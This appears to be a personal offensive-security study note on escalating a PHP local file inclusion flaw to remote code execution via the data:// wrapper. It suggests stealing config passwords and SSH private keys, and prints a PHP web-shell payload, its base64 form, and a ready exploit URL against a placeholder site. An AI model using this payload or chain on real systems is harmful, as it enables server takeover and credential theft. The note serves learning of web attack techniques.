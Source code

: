 Aside from [using PHP wrappers for file disclosures](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) through the file inclusion vulnerability. The same technique can also be used to perform code executions.

While we can use many different methods to execute remote commands depending on the backend language/framework and the vulnerable function's capabilities. The most command method for gaining control over the backend server is by enumerating for user credentials and SSH keys, and then use those to login to the backend server through SSH or any remote session.

For example, we may find the database password in `config.php`, which may match a user's password in case they re-use the same password. Or we can check the `.ssh` directory in each user's home directory, and if the read privileges are not set properly, then we may be able to grab their private key (`id_rsa`) and use it to SSH into the system.
## Data Wrapper
The [data](https://www.php.net/manual/en/wrappers.data.php) wrapper can be used to include external data, including PHP code. However, the data wrapper is only available to use if the (`allow_url_include`) setting is enabled in the PHP configurations. To confirm this, we need to use the `convert.base64-encode` for the `read` parameter [technique](obsidian://open?vault=security-notes&file=Offensive%20Security%2FWeb%20Application%20Security%2FServer-side%20Vulnerabilities%2FFile%20Inclusion%20Vulnerabilities%2FFile%20Disclosures%2FUsing%20PHP%20Wrappers) to read PHP configuration files.

Once we have the base64 encoded string, we can decode it and `grep` for `allow_url_include` to see its value:
```bash
echo 'W1BIUF0KCjs7Ozs7Ozs7O...SNIP...4KO2ZmaS5wcmVsb2FkPQo=' | base64 -d | grep allow_url_include

allow_url_include = On 
```
## Remote Code Execution
With `allow_url_include` enabled, we can proceed with our attack using the `data` wrapper. Aside from passing plain PHP code, we can also pass it `base64` encoded strings with `text/plain;base64`, and it has the ability to decode them and execute the PHP code.

First we encode our payload in Base64 as follows:
```bash
echo '<?php system($_GET["cmd"]); ?>' | base64

PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```
Then we pass the encoded payload into the data wrapper as follows:
```txt
http://target-website.com/index.php?language=data://text/plain;base64,PD9waHAgc3lzdGVtKCRfR0VUWyJjbWQiXSk7ID8+Cg==
```